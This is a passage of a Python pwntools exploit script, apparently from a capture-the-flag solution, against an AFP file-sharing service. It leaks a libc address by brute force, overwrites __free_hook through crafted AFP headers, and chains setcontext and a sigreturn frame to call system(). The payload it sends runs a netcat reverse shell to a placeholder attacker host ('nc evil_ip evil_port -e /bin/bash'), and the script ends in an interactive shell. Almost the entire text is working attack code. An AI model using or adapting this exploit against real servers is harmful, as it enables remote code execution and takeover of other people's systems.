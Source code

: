 ```python
        r.send(create_header(addr+chr(i)))
        try:
            if "a"*4 in r.recvrepeat(1):
                addr += chr(i)
                r.close()
                break
        except:
            r.close()
    val = u64(addr.ljust(8,'\x00'))
    print hex(val)
addr += "\x00"*2
libc_addr = u64(addr)
log.success("[+]Now we got an addresss {}".format(hex(libc_addr)))
offset = 0x535a000
libc_base = libc_addr + offset
log.success("[+]libc base {}".format(hex(libc_base)))
libc.address = libc_base

raw_input("write free hook: ")
free_hook = libc.sym['__free_hook']
# mov    rdi,rax ; call   QWORD PTR [rax+0x20]
magic = libc_base + 0x7eaff
dl_openmode = libc_base + 0x166398
dl_open_hook = libc_base + 0x3f0588

r = remote(ip,port)
r.send(create_header(p64(free_hook-0x30))) #  overwrite afp_command buf with free_hook-0x30
#
raw_input("write shell: ")
rip="127.0.0.1"
rport=1234
cmd='bash -c "nc evil_ip evil_port -t -e /bin/bash" \x00'# cat flag to controled ip and port

sigframe = SigreturnFrame()
sigframe.rdi = free_hook + 8
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rax = 0
sigframe.rsp = free_hook+0x400
sigframe.rip = libc.sym['system']

payload =  '\x00'*0x2e
payload += p64(dl_openmode) # free_hook
payload += cmd.ljust(0x2c98,'\x00')
payload += p64(dl_open_hook+8) + p64(magic)*4
payload += p64(libc.sym['setcontext']+53)
payload += str(sigframe)[0x28:]
r.send(create_afp(0,payload))

raw_input("get shell: ")
r.send(create_afp(18,""))

r.interactive()
```
